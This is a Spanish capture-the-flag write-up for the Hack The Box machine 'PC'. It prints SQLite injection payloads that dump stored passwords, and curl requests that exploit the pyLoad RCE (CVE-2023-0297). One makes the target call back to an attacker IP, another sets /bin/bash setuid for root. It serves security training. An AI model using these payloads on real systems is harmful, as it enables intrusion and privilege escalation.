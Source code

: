 ```yaml
---
title: PC HTB
date: 2023-07-19
tier: easy
author: naibu3
---
```


# Reconocimiento

Como siempre comenzamos lanzando [[nmap]], para tratar de buscar puertos abiertos:

```bash
sudo nmap -sS -p- --open --min-rate 5000 -n -Pn 10.10.11.214
```
```nmap
PORT      STATE SERVICE
22/tcp    open  ssh
50051/tcp open  unknown
```

Ahora tratamos de detectar versiones y servicios:

```bash
sudo nmap -sCV -p22,50051 -n -Pn 10.10.11.214
```
```nmap
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
50051/tcp open  unknown
```

Vemos que se trata de un puerto bastante raro. Además si tratamos de comunicarnos con [[curl]], nos da el siguiente mensaje de error:

```curl
Received HTTP/0.9 when not allowed
```

Si buscamos el error y *service*, encontraremos que puede tratarse de un servicio [[gRPC]]. Además, en este [artículo](https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9) se detalla bastante. Podemos utilizar la herramienta [[grpcurl]], pero es más cómoda [[grpcui]]. Así que la instalamos y utilizamos el siguiente comando:

```bash
grpcui -plaintext 10.10.11.214:50051
```

Se nos abrirá en el navegador una pestaña mediante la cuál podremos tramitar peticiones a la API. Si tratamos de hacer *login* con las credenciales *admin:admin*, veremos que nos dan un *Jason Web Token* ([[JWT]]) y un *ID*. Ahora, si tratamos de hacer una petición a *getInfo*, pasando el ID y el JWT, veremos un mensaje de error `Unexpected <class 'TypeError'>: 'NoneType' object is not subscriptable`. Si tratamos de capturar la petición con [[burpsuite]] y probamos con una inyección SQL ([[SQL Injection]]) como `OR 1=1-- -`, veremos que nos reporta un error, dándonos la pista de que pueda ser vulnerable a [[SQL Injection]].

# Explotación

Vamos a tratar de enumerar la base de datos, para ver que tipo de BD se trata, probaremos distintas funciones de cada gestor (puedes verlas en [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection)). Si probamos con una de **SQLite**:

```sql
542 UNION SELECT sqlite_version()=sqlite_version()-- -
```

Vemos que funciona, por lo que el gestor es **SQLite**. Vamos a tratar ahora de enumerar las bases de datos (utilizaremos las inyecciones de [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)):

```sql
542 UNIoN SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -
```

En la respuesta vemos dos tablas **accounts** y **messages**. Vamos a tratar de ver qué columnas hay en **accounts**:

```sql
542 UNIoN SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='accounts'-- -
```

Y vemos que hay dos columnas **username** y **password**. Ya podemos directamente tratar de listar los usuarios (debemos utilizar *group_concat*):

```sql
542 UNION SELECT group_concat(username) FROM accounts-- -
```

Y vemos que existen dos usuarios **admin** y **sau**. Vamos a tratar de listar sus contraseñas:

```sql
542 UNIoN SELECT group_concat(password) From accounts WHERE username='sau'-- -
```

Para *admin* ya sabíamos que era *admin*, y tenemos que para **sau** es **HereIsYourPassWord1431**. Si tratamos de acceder por [[22-ssh]], lograremos acceder y ver la **flag de usuario** (`83508536f23f17e1e05c57c82ed1c8cb`).

# Escalada de privilegios

Una vez dentro comenzaremos con el [[Reconocimiento del equipo]]. Como no vemos nada sospechoso lanzamos [[linpeas]]. Entre otras cosas, podemos ver que hay un servicio corriendo en el puerto 8000:

```linpeas
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::50051                :::*                    LISTEN      -
```

Así que hacemos [[eJPT-Notes/port forwarding]]:

```bash
ssh -L 8000:127.0.0.1:8000 sau@10.10.11.214
```

Si lanzamos [[nmap]]:

```bash
nmap -p8000 -sCV localhost
```
```nmap
PORT     STATE SERVICE VERSION
8000/tcp open  http    CherryPy wsgiserver
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Cheroot/8.6.0
| http-title: Login - pyLoad 
|_Requested resource was /login?next=http%3A%2F%2Flocalhost%3A8000%2F
```

Vemos que está corriendo un servicio [[80-http]] con lo que parece un **pyLoad**. Si accedemos via navegador, confirmamos que se trata de dicho servicio. Veremos un panel de login en el que no parecen funcionar las credenciales por defecto.

Con una búsqueda por internet encontramos el siguiente [artículo](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad). Vemos que tenemos un [[RCE]]. Podemos comprobarlo montándonos un servidor http con [[python]] y tratando de mandarnos una petición desde el servidor:

```bash
curl -i -s -k -X $'POST' \                                                               
    --data-binary $'jk=pyimport%20os;os.system(\"curl%2010.10.16.114\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \ 
    $'http://localhost:8000/flash/addcrypted2'
```

Como recibimos la respuesta correctamente, podemos tratar de cambiar los privilegios de la bash:

```bash
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"chmod%20+4777%20/bin/bash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://localhost:8000/flash/addcrypted2'
```

Y ya con un `bash -p` ya seríamos root. La flag es (`a31593104e9b23a59b146166fc794f72`).